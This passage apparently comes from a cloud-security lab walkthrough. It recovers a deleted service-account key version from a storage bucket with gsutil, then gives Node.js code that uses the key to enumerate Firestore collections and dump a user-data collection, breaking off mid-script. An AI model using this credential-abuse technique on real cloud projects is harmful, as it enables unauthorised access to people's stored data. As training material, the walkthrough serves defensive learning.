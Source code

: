 A previous version of the `firestore.json` file, that has since been deleted from the bucket, is available. We download it:

```bash
gsutil cp gs://cloud-vault-assets/cloudvault-dev-files/config/firestore.json#1714402948237947 .
```

The following line in `app.js` indicates that the [Passport.js](https://www.passportjs.org/) middleware is used for authentication. An authentication strategy might be in place to pull data from the Firestore `db` object.

```bash
require('./include/passport');
```

Unfortunately, the `include/passport.js` file is not found on the storage bucket, so - assuming our hypothesis is true - we don't know which [collection](https://firebase.google.com/docs/firestore/data-model#collections) might contain user data. We can write a simple NodeJS application to list available collections in the default database using the [listCollections()](https://googleapis.dev/nodejs/firestore/latest/Firestore.html#listCollections) method available in the [Firebade Admin SDK](https://firebase.google.com/docs/admin/setup).

```javascript
const { initializeApp, cert } = require('firebase-admin/app');
const { getFirestore } = require('firebase-admin/firestore');

const serviceAccount = require('./firestore.json');
    
initializeApp({
    credential: cert(serviceAccount)
});

const db = getFirestore();

db.listCollections()
      .then(snapshot=>{
        snapshot.forEach(snaps => {
          console.log(snaps["_queryOptions"].collectionId);
        })
      })
      .catch(error => console.error(error));
```

A single collection named `vault_user_store` is returned.

```bash
$ node list.js 
vault_user_store
```

We can modify the program to show all data in the `vault_user_store` collection.

```javascript
const { initializeApp, cert } = require('firebase-admin/app');
const { getFirestore } = require('firebase-admin/firestore');

const serviceAccount = require('./firestore.json');
    
initializeApp({
    credential: cert(serviceAccount)
});

const db = getFirestore();

async function getdata(db) {
  const dataRef = db.collection('vault_user_store');
  const snapshot = await dataRef.get();
  snapshot.forEach(doc => {
    console.log(doc.id, '=>', doc.data());
```